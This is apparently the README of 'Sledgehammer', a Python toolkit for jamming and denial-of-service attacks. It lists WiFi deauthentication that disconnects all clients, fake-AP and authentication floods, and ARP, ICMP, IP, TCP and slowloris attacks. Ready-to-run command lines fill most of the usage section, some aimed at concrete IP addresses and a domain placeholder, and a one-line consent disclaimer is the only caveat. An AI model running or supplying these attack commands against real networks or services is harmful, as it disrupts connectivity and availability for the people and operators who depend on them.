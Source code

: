 ### General information
Sledgehammer is collection of Jammer/DoS tools for various protocols. Those include at minimum:

- WiFi (smart deauthentication, DoS via fake AP creation, DoS via authentication)
- arp
- ip
- icmp
- tcp

### Requirements
- [Python 3.x](https://www.python.org/)
- [Pypacker](https://github.com/mike01/pypacker) ('pip install pypacker' or clone and 'python setup.py install')
- [iwconfig](http://www.hpl.hp.com/personal/Jean_Tourrilhes/Linux/Tools.html) (wireless-tools)

### Installation
Just download and execute.

### Usage examples
Get general help via: python sledgehammer.py --help
Depending on attack mode parameters can vary. See mode-parameters for more info.
Default source MAC and IP address is the one of the interface given by 'iface_name'.

- WiFI DoS via smart deauthentication: Disconnect all WiFi clients

  `python sledgehammer.py --mode wifi_deauth --iface_name wlan1 --count 9999`

- WiFI DoS via smart deauthentication: Disconnect all WiFi clients except '00:11:22:33:44:55'

  `python sledgehammer.py --mode wifi_deauth --iface_name wlan1 --nobroadcast --macs_excluded 00:11:22:33:44:55 --count 9999`

- WiFi DoS via mass fake APs

  `python sledgehammer.py --mode wifi_ap --iface_name wlan1 --channels 1 --count 9999`

- WiFi DoS via mass auth

  `python sledgehammer.py --mode wifi_auth --iface_name wlan1 --mac_dst 00:11:22:33:44:55:66 --channels 4 --count 9999`

- ARP

  `python sledgehammer.py --mode arp --iface_name wlan1 --mac_dst 00:11:22:33:44:55 --ip_dst 192.168.178.1`

- ICMP

  `python sledgehammer.py --mode icmp --iface_name wlan1 --mac_dst 00:11:22:33:44:55:66 --ip_dst 192.168.178.1`

- IP

  `python sledgehammer.py --mode ip --iface_name wlan0 --mac_dst 00:11:22:33:44:55:66 --ip_dst 192.168.178.123 --count 9999`

- TCP

  `python sledgehammer.py --mode tcp --iface_name wlan1 --mac_dst 00:11:22:33:44:55:66 --ip_dst 193.99.144.80 --port_dst 443`

- Slowlory

  `python sledgehammer.py -m slowlory --ip_dst 1.2.3.4 --port_dst 80  -i wlan0`
  `python sledgehammer.py -m slowlory --ip_dst www.domain.com --port_dst 443 --ssl True -i wlan0`

### Disclaimer
Use at your own risk. Do not use without full consent of everyone involved.
